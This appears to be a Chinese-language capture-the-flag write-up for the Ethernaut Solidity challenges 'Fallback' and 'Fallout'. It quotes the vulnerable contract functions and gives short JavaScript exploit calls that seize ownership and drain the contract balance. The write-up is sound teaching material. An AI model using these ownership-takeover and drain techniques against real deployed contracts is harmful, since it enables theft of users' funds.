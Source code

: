 觀察 `receive()` 可以做到，但需繞過條件 msg.value > 0 且 contributions[msg.sender] > 0。
```solidity
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
}
```
1. contributions[msg.sender] > 0
透過 `contribute()` 達成此條件
```solidity
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
}
```
2. 送 ether 給合約進入 `receive()`
3. 此時 `owner = player`，onlyOwner 可過，調用 `withdraw()` 可以領全部的錢
```solidity
function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
}
```
### Exploit
```javascript
await contract.contribute({value: toWei("0.00001")});
await contract.send({value: toWei("0.00001")});
await contract.withdraw();
```
確定 balance = 0
```javascript
await getBalance(contract.address);
// output: 0
```
Level completed.

## 2. Fallout
目標 `owner = player`

舊版本 Solidity 合約同名的函數作為 constructor
```solidity
/* constructor */
function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
}
```
### Exploit
直接呼叫 `Fal1out()` 就完事了
```javascript
await contract.Fal1out();
```
Level completed.
